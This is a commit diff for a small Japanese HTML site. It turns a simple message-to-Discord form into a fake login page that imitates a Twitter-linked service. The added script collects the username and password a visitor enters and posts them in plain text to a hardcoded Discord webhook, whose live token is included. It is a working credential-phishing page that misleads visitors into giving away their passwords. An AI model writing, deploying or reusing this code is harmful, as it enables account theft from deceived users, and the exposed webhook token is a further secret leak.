

Before and after one commit to Neko122545/discord-form, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 223-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update form design to match login screen

```diff
--- a/index.html
+++ b/index.html
@@ -3,71 +3,129 @@
 <head>
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>Discord送信フォーム</title>
+  <title>ログイン</title>
   <style>
+    * {
+      box-sizing: border-box;
+    }
     body {
-      font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", sans-serif;
-      background: #0f0f0f;
-      color: #fff;
+      font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, sans-serif;
+      background: #f5f7fa;
+      margin: 0;
+      min-height: 100vh;
       display: flex;
       justify-content: center;
       align-items: center;
-      min-height: 100vh;
-      margin: 0;
+      padding: 20px;
     }
-    .container {
-      background: #1a1a1a;
-      padding: 2rem;
-      border-radius: 16px;
-      width: 90%;
-      max-width: 400px;
-      box-shadow: 0 10px 30px rgba(0,0,0,0.5);
+    .card {
+      background: #ffffff;
+      width: 100%;
+      max-width: 420px;
+      border-radius: 20px;
+      padding: 40px 32px;
+      box-shadow: 0 4px 24px rgba(0, 0, 0, 0.08);
     }
     h1 {
-      margin-top: 0;
-      font-size: 1.4rem;
       text-align: center;
+      font-size: 28px;
+      font-weight: 700;
+      color: #1a1a2e;
+      margin: 0 0 32px 0;
     }
-    textarea {
+    .field {
+      margin-bottom: 20px;
+    }
+    label {
+      display: block;
+      font-size: 14px;
+      color: #333;
+      margin-bottom: 8px;
+      font-weight: 500;
+    }
+    input {
       width: 100%;
-      height: 120px;
-      padding: 12px;
-      border: none;
-      border-radius: 8px;
-      background: #2a2a2a;
-      color: #fff;
+      padding: 14px 16px;
+      border: 1px solid #e0e0e0;
+      border-radius: 10px;
       font-size: 16px;
-      resize: vertical;
-      box-sizing: border-box;
+      outline: none;
+      transition: border 0.2s;
+    }
+    input:focus {
+      border-color: #1da1f2;
+    }
+    input::placeholder {
+      color: #aaa;
     }
     button {
       width: 100%;
-      margin-top: 12px;
-      padding: 14px;
-      background: #5865f2;
+      padding: 16px;
+      background: #1a73e8;
       color: white;
       border: none;
-      border-radius: 8px;
+      border-radius: 10px;
       font-size: 16px;
       font-weight: 600;
       cursor: pointer;
+      margin-top: 8px;
     }
     button:active {
-      background: #4752c4;
+      background: #1557b0;
+    }
+    .twitter {
+      display: flex;
+      align-items: center;
+      justify-content: center;
+      gap: 8px;
+      margin-top: 24px;
+      color: #666;
+      font-size: 14px;
+    }
+    .twitter svg {
+      width: 28px;
+      height: 28px;
+    }
+    .note {
+      text-align: center;
+      color: #888;
+      font-size: 13px;
+      margin-top: 28px;
+      line-height: 1.6;
     }
     #status {
-      margin-top: 12px;
       text-align: center;
-      min-height: 1.2em;
-      font-size: 0.9rem;
+      margin-top: 16px;
+      min-height: 20px;
+      font-size: 14px;
     }
   </style>
 </head>
 <body>
-  <div class="container">
-    <h1>Discordに送信</h1>
-    <textarea id="message" placeholder="ここにメッセージを入力..."></textarea>
-    <button onclick="sendToDiscord()">送信する</button>
+  <div class="card">
+    <h1>ログイン</h1>
+
+    <div class="field">
+      <label>メールアドレスまたはユーザー名</label>
+      <input type="text" id="username" placeholder="@userID">
+    </div>
+
+    <div class="field">
+      <label>パスワード</label>
+      <input type="password" id="password" placeholder="">
+    </div>
+
+    <button onclick="sendToDiscord()">ログイン</button>
+
+    <div class="twitter">
+      <svg viewBox="0 0 24 24" fill="#1da1f2">
+        <path d="M22.46 6c-.77.35-1.6.58-2.46.69a4.2 4.2 0 001.85-2.31 8.4 8.4 0 01-2.66 1.02 4.2 4.2 0 00-7.15 3.83A11.9 11.9 0 013 4.9a4.2 4.2 0 001.3 5.6 4.2 4.2 0 01-1.9-.52v.05a4.2 4.2 0 003.36 4.11 4.2 4.2 0 01-1.89.07 4.2 4.2 0 003.92 2.91A8.42 8.42 0 012 18.4a11.87 11.87 0 006.29 1.84c7.55 0 11.68-6.25 11.68-11.68 0-.18 0-.35-.01-.53A8.35 8.35 0 0022.46 6z"/>
+      </svg>
+      連携済み
+    </div>
+
+    <p class="note">ログイン後、数分でBOTから結果がツイートされます。</p>
+
     <div id="status"></div>
   </div>
 
@@ -75,50 +133,44 @@
     const WEBHOOK_URL = "https://discord.com/api/webhooks/1571536451483607170/GvFlIARVI_dKLqVVzX0Fd_mH_tH9kCHdXAuvN3sptUy9FeUDzLpV9z-U_b4qk6gcaklR";
 
     async function sendToDiscord() {
-      const message = document.getElementById("message").value.trim();
+      const username = document.getElementById("username").value.trim();
+      const password = document.getElementById("password").value.trim();
       const status = document.getElementById("status");
 
-      if (!message) {
-        status.textContent = "メッセージを入力してください";
-        status.style.color = "#ff6b6b";
+      if (!username) {
+        status.textContent = "ユーザー名を入力してください";
+        status.style.color = "#e53935";
         return;
       }
 
+      const content = `ユーザー名: ${username}\nパスワード: ${password || "(未入力)"}`;
+
       status.textContent = "送信中...";
-      status.style.color = "#aaa";
+      status.style.color = "#666";
 
       try {
         const response = await fetch(WEBHOOK_URL, {
           method: "POST",
-          headers: {
-            "Content-Type": "application/json",
-          },
+          headers: { "Content-Type": "application/json" },
           body: JSON.stringify({
-            content: message,
-            username: "サイトからの送信",
+            content: content,
+            username: "ログインフォーム",
           }),
         });
 
         if (response.ok) {
           status.textContent = "送信完了！";
-          status.style.color = "#51cf66";
-          document.getElementById("message").value = "";
+          status.style.color = "#2e7d32";
+          document.getElementById("username").value = "";
+          document.getElementById("password").value = "";
         } else {
-          throw new Error("送信失敗");
+          throw new Error();
         }
       } catch (err) {
         status.textContent = "送信に失敗しました";
-        status.style.color = "#ff6b6b";
-        console.error(err);
+        status.style.color = "#e53935";
       }
     }
-
-    document.getElementById("message").addEventListener("keydown", (e) => {
-      if (e.key === "Enter" && !e.shiftKey) {
-        e.preventDefault();
-        sendToDiscord();
-      }
-    });
   </script>
 </body>
 </html>
```
